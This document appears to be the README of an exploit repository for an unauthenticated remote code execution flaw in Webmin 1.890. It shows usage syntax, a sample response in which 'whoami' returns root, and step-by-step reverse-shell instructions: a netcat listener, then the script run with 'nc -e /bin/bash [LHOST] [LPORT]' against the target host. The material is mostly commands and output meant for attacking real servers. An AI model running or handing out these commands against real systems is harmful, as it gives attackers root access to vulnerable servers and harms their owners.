 # WebMin-1.8.9.0-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>
# USAGE:
```bash
$ python3 exploit.py [TARGET IP] [COMMAND]
#EXAMPLE
$ python3 exploit.py 127.0.0.1 whoami

```
```bash
#RESPONSE
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```
<br>
<h4>before running script start listener for connection in your machine</h4>
<code>nc -nvlp [LPORT]</code> 
<br><h4>run script</h4>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
